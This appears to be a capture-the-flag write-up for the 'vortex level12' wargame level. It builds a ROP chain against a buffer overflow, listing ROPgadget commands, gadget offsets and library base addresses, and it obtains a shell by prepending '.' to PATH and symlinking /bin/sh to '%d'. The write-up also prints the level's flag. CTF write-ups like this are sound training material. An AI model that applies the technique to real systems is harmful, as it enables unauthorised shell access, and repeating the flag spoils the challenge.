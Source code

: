 ```yaml
---
layout: default
title: vortex12
---
```


# vortex level12 Solution

in this challenge we need to use ROP chain in order to exploit the buffer overflow. 
we will find our gadgets in *libc.so.6*, and in *ld-linux.so.2*.

using this command we can see where every file is loaded: 
```
ldd /vortex/vortex12
```
/lib/i386-linux-gnu/libc.so.6 (**0xf7d7d000**)
/lib/ld-linux.so.2 (**0xf7fc9000**)


find "pop eax", "pop edx", in libc.so.6
```
ROPgadget --binary /lib/i386-linux-gnu/libc.so.6 --only "pop|ret" | grep -E "pop (eax|edx) ; ret"
```
* pop eax -> 0x0012b311 (in **libc.so.6**)
* pop edx -> 0x0003be0d (in **libc.so.6**)

then, find "mov [edx], eax", in ld-linux.so.2 
```
 ROPgadget --binary /lib/ld-linux.so.2 --only "mov|ret" | grep -E "mov .* \[edx\], eax ; ret"
```
![image](./images/level12_2.png)

* mov [edx], eax -> 0x0001250b (in **ld-linux.so.2**)

we only need to call exit, so, first let's find "mov eax, 1".
```
ROPgadget --binary /lib/i386-linux-gnu/libc.so.6 --only "mov|ret" | grep -E "mov eax, 1"
```
* mov eax, 1 -> 0x0005cdb5 (in **libc.so.6**)

and then, call the kernel using "int 0x80".
```
ROPgadget --binary /lib/i386-linux-gnu/libc.so.6 --only "int"
```
* int 0x80 -> 0x00039ed4 (in **libc.so.6**)

now, we can see it tries to run this command, `system("%d")`  
![image](./images/level12_3.png)

first we need to adjust the PATH variable:
```
export PATH=.:$PATH
```

and then, create link to `/bin/sh` using this command: 
```
ln -sf /bin/sh "%d"
```

finally :)

![image](./images/level12_4.png)

**Flag:** ***`kklZMRIrj`***